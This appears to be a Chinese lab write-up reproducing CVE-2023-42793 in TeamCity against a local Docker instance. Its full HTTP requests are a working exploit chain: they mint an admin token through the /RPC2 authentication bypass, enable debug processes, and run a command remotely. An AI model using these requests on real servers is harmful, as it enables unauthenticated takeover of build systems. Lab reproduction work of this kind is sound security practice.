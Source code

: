 # Jetbrains TeamCity 认证绕过导致远程命令执行漏洞（CVE-2023-42793）

TeamCity 是 JetBrains 的构建管理和持续集成服务器。

在 TeamCity 2023.05.3 版本及以前，存在一处由于逻辑错误导致的认证绕过漏洞，攻击者利用该漏洞最终可以在目标服务器上执行任意命令。

参考链接：

- <https://www.sonarsource.com/blog/teamcity-vulnerability/>
- <https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/>

## 漏洞环境

执行如下命令启动一个 TeamCity 2023.05.3 服务器：

```
docker compose up -d
```

服务启动后，你需要打开`http://localhost:8111`并执行一系列初始化操作：

![](1.png)

## 漏洞复现

造成这个漏洞的原因是 TeamCity 内部对于所有以`/RPC2`为后缀结尾的请求都不认证权限。

而正好添加API Token的请求的结尾参数是Token的名字，我们可以添加一个名字为`RPC2`的API Token：

```
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

这样就成功绕过权限认证生成了一个新的Token。使用该Token来开启调试模式：

```
POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0


```

![](3.png)

开启调试模式后，就可以执行任意命令了：

```
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0


```

![](4.png)

利用结束后，我们最好能够删除名为`RPC2`的API Token，避免对业务造成问题：

```
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
